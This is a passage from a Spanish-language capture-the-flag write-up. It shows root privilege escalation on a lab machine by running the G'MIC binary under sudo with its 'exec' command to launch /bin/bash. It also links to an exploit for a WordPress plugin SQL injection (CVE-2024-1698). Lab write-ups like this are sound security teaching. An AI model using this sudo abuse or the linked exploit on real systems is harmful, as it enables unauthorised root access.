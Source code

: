 <br>

Investigando la forma de uso de este binario, resulta que podemos ejecutar algunos comandos que son para control de flujo:
* <a href="https://gmic.eu/tutorial/command_guide.html#controlf" target="_blank">G'MIC - Flow Control</a>

Y tenemos un comando que puede estar compilado en el binario, siendo el comando **exec**:
* <a href="https://gmic.eu/reference/exec.html#top" target="_blank">G'MIC - Flow Control: exec</a>

Parece que solo tenemos que indicarle el comando que queremos ejecutar.

Vamos a probarlo con el comando **id**:
```bash
debugsec@debugsec:~$ sudo /usr/bin/gmic exec "id"
[gmic]-0./ Start G'MIC interpreter.
[gmic]-0./ Execute external command 'id' in verbose mode.
uid=0(root) gid=0(root) grupos=0(root)

[gmic]-0./ End G'MIC interpreter.
```
Excelente, funciona.

Entonces, le podemos pedir una sesión de bash y nos tendría que dar una sesión del **Root**:
```bash
debugsec@debugsec:~$ sudo /usr/bin/gmic exec "/bin/bash"
[gmic]-0./ Start G'MIC interpreter.
[gmic]-0./ Execute external command '/bin/bash' in verbose mode.
root@debugsec:/home/debugsec# whoami
root
```
Ya somos **Root**.

Obtengamos la última flag:
```bash
root@debugsec:/home/debugsec# cd /root
root@debugsec:~# ls
gmic  root.txt
root@debugsec:~# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://www.vicarius.io/vsociety/posts/exploiting-the-unexploited-unauthenticated-blind-sqli-in-notificationx-wordpress-plugin-cve-2024-1698-a-novel-exploit-for-novel-folks
* https://github.com/kamranhasan/CVE-2024-1698-Exploit
* https://gmic.eu/tutorial/command_guide.html#controlf
* https://gmic.eu/reference/exec.html#top
